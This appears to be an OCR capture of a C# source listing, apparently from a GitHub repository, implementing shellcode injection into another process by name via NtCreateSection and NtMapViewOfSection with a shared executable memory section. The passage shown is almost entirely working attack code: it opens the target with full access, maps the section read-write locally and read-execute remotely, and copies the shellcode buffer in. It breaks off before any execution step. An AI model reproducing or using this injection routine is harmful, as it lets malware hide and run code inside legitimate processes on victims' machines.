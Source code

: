 ```csharp

            int bufLength = buf.Length;
            UInt32 uBufLength = (UInt32)bufLength;

            // Get handle on a local process
            IntPtr hLocalProcess = Process.GetCurrentProcess().Handle;

            // Get handle on a remote process (by name)
            string processName = args[0];
            Process[] pList = Process.GetProcessesByName(processName);
            if (pList.Length == 0)
            {
                Console.WriteLine("[-] No such process");
                return;
            }
            int processId = pList.First().Id;
            IntPtr hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
            if (hRemoteProcess == IntPtr.Zero)
            {
                Console.WriteLine("[-] Failed to open remote process");
                return;
            }

            // Create RWX memory section for the shellcode
            IntPtr hSection = new IntPtr();
            if (NtCreateSection(ref hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, IntPtr.Zero, ref uBufLength, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero) != 0)
            {
                Console.WriteLine("[-] Falied to create a section for the shellcode");
                return;
            }

            // Map the view of created section into the LOCAL process's virtual address space (as R-W)
            IntPtr baseAddressL = new IntPtr();
            ulong sectionOffsetL = new ulong();
            if (NtMapViewOfSection(hSection, hLocalProcess, ref baseAddressL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out uBufLength, 2, 0, PAGE_READ_WRITE) != 0)
            {
                Console.WriteLine("[-] Falied to map the view into local process's space");
                return;
            }
            
            // Map the view of (the same) created section into the REMOTE process's virtual address space (as R-E)
            IntPtr baseAddressR = new IntPtr();
            ulong sectionOffsetR = new ulong();
            if (NtMapViewOfSection(hSection, hRemoteProcess, ref baseAddressR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out uBufLength, 2, 0, PAGE_READ_EXECUTE) != 0)
            {
                Console.WriteLine("[-] Falied to map the view into remote process's space");
                return;
            }

            // Copy the shellcode into the locally mapped view which will be reflected on the remotely mapped view
            Marshal.Copy(buf, 0, baseAddressL, bufLength);

            // BEGIN DEBUG (check if the shellcode was copied correctly)
            byte[] remoteMemory = new byte[bufLength];
            IntPtr bytesRead = new IntPtr();
            ReadProcessMemory(hRemoteProcess, baseAddressR, remoteMemory, remoteMemory.Length, out bytesRead);
```